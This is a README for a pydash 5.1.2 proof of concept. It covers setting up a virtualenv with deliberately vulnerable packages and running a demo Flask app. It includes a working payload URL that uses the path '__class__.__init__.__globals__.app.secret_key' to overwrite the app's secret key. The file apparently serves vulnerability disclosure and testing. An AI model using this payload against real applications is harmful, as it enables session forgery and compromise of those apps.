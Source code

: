 
** Instructions for pydash 5.1.2 and flask PoC **
** Prerequisites: ** python3.x, pip
* create a python virtualenv if you don't want to taint your python installation with vulnerable packages, for example:
    1. python3 -m venv env
    2. source /env/bin/activate
* install vulnerable packages in the environment
    1. pip install -r requirements.txt 
* run the proof of concept
    1. python3 pydash_poc_5.1.2.py
* run flask proof of concept
    1. flask --debug --app flask_poc.py run
    2. open browser and enter following url: http://127.0.0.1:5000/?path=__class__.__init__.__globals__.app.secret_key&val='1337'
    3. result will be printed in the terminal window running the flask server
